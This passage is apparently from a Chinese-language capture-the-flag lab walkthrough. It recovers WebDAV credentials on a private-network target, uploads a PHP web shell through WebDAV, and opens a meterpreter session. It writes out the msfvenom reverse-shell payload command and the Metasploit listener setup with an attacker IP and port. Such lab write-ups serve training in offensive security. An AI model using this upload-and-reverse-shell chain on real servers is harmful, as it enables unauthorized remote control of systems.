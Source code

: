 解密一下

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMa6Xuc9aH9wuJic4paQiaVhVW05l8tSCR496S81oc95XMgcRxL9SKvVCFA/640?wx_fmt=png)

解密得到为：yamdoot:Swarg

这应该就是 webdav 的账号和密码了

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMa6ERzTNxwOkFrNwenToVlIChichqGpFiaiaTO3gwafEhgjbWef1nRHXyiaA/640?wx_fmt=png)

成功连接

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaGBxwBv7GWibCSOVIMwRoKIoYJWtGmJCNJ6bKQ0LFqKiaKSJj4tOk28TQ/640?wx_fmt=png)

可以发现我们是可以通过 webdav 上传文件的

接着我们使用 kali 的 cadaver 去连接 webdav

使用命令：cadaver http://192.168.158.142/webdav

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMag04gt8crPIXsxwqYhLibXFsrmibsAJMibibPxkYMgRVickMn5dELlic3IKNg/640?wx_fmt=png)

由于这里是需要登录 webdav 所以我们需要上传能反弹 shell 的木马文件

这里使用 kali 生成一个 msf 的 php 马，命令：

msfvenom -pphp/meterpreter\_reverse\_tcp LHOST=xxx LPORT=xxx -f raw > shell.php

kali 进行监听

命令：

use exploit/multi/handler

set payloadphp/meterpreter\_reverse\_tcp

php/meterpreter\_reverse\_tcp

set lhost 192.168.158.132

192.168.158.132

set lport 8888

run

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaYw8kxBLia9KAm4DKqwzic1jDpibrcEDbjrUB7EkA3iaRAE1Zyfd524fL3g/640?wx_fmt=png)

再上传生成的木马文件

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMafYKYAmUkicSuWNN8E1yrwFebAqvBWN40yvqDsaITWeSgftKmXFGCDpg/640?wx_fmt=png)

访问 msf.php

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaD7ygYaUtYdhfkeOOpNOe6cVBrHyFRtOSWg6CXicSwcc3SqlQhamSPUw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaygCgrIjDS9910vmqqzvaSpyibAjUibu84IBRbKnric9KSZpvRnlzAP8rQ/640?wx_fmt=png)

成功拿到 meterperter
